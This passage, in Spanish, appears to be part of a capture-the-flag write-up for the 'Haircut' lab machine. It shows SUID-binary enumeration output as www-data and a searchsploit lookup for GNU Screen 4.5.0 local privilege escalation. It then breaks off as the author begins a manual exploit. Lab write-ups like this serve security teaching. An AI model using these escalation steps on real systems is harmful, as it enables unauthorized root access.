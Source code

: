 ```bash
www-data@haircut:~/html/uploads$
```
# Shell como root.
Enumerando encontré un binario SUID muy interesante.
```bash
www-data@haircut:~/html/uploads$ find / -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 May  4  2017 /bin/su
-rwsr-xr-x 1 root root 40152 Dec 16  2016 /bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Dec 16  2016 /bin/umount
-rwsr-xr-x 1 root root 136808 Jan 20  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root root 32944 May  4  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 39904 May  4  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May  4  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May  4  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
-rwsr-xr-x 1 root root 54256 May  4  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 1588648 May 19  2017 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 40432 May  4  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 49584 May  4  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 38984 Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 208680 Apr 29  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 428240 Mar 16  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
www-data@haircut:~/html/uploads$ ls -la /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 1588648 May 19  2017 /usr/bin/screen-4.5.0
```
No es un SUID frecuente por lo que lo busque y encontré un exploit de este.
```bash
searchsploit screen 4.5.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                                                         | linux/local/41152.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Descargue el script sh en la máquina víctima y trate de ejecutar, pero la máquina peta al hacerlo. Por lo que tuve que hacerlo manual.
```bash
cat 41154.sh 
#!/bin/bash
# screenroot.sh
```
